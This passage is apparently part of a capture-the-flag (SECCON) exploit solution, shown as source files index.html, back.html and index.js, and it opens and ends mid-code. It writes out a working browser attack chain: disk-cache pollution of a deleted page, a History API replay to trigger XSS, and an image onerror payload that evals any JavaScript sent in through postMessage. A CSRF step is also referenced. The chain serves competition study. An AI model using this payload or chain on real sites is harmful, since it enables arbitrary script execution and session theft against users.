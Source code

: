 ```html title="public/index.html"
      {
        // Open the bot's user page
        // Then, it will pollute the disk cache for the deleted page.
        evilWindow.location = baseUrl;
      }
      await sleep(1000);
      {
        // Access to the deleted page again using History API
        // Then, the browser will render the cached page and the XSS will occur!
        // Note that a bfcache will not be used because the page will have a window.opener reference.
        //   ref. https://web.dev/articles/bfcache?hl=en#avoid_windowopener_references
        evilWindow.location = `${location.origin}/back.html?n=2`;
      }
      await sleep(1000);
      {
        // Send a JavaScript code via postMessage
        // Then, the XSS window will execute it!
        evilWindow.postMessage(evilJs, baseUrl);
      }
    };
    main();
  </script>
</body>
```

```html title="public/back.html"
<script>
  const n = parseInt(new URLSearchParams(location.search).get("n"));
  history.go(-n);
</script>
```

```javascript title="index.js"
const path = require("node:path");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

if (!ATTACK_BASE_URL.startsWith("http://")) {
  fail("Invalid ATTACK_BASE_URL: the CSRF will fail");
}

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const noteId =
    // XSS payload:
    `<img src=0 onerror="window.addEventListener('message',e=>eval(e.data))">` +
    // .html -> Content-Type: text/html
    // ref. https://github.com/broofa/mime/blob/main/types/standard.js
    ".html";

  if (noteId.length > 100) {
    // ref. https://github.com/delvedor/find-my-way/blob/v7.3.0/index.js#L87
    fail(`Too long id: ${noteId}`);
  }
```
